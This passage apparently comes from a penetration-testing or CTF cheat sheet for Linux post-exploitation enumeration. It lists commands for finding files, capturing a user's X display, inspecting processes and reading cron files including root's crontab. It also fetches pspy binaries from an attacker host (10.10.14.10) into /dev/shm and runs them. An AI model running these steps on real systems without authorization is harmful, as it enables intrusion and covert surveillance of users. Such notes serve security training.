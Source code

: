 Files owned by the current user
```bash
find / -type f -user ${whoami} -exec ls {} + 2>/dev/null | grep -v proc
```
Files created or modified in the last 5 days
```bash
find / -mtime -5 -o -ctime -5 2>/dev/null
```
Display configuration with `.Xauthority` and `.xsession` files
```bash
echo $Xauthority
export Xauthority=/home/$(whoami)/.Xauthority
```
Use X11 forwarding to capture the display remotely
```bash
xwd -root -screen -silent -display :0 > /tmp/screen.xwd
convert screen.xwd screen.png
```

<br>

## Services
Processes
```bash
ps
ps aux | grep -i 'root' --color=auto
ps axjf 
ps ef | grep -i root
```
Filter using `grep`
```markdown
-e 	every process
-f 	full format
-l 	long format
-u 	details about user
-j 	jobs
-f 	forest → more visual
```
Scan processes
```bash
wget http://10.10.14.10:8000/pspy64 -O /dev/shm/pspy64
chmod +x /dev/shm/pspy64
/dev/shm/pspy64

wget http://10.10.14.10:8000/pspy32 -O /dev/shm/pspy32
chmod +x /dev/shm/pspy32
/dev/shm/pspy32
```
Cronjobs
```bash
crontab -l
ls -lsah /var/spool/cron
ls -lsah /etc/ | grep cron
ls -lsah /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```
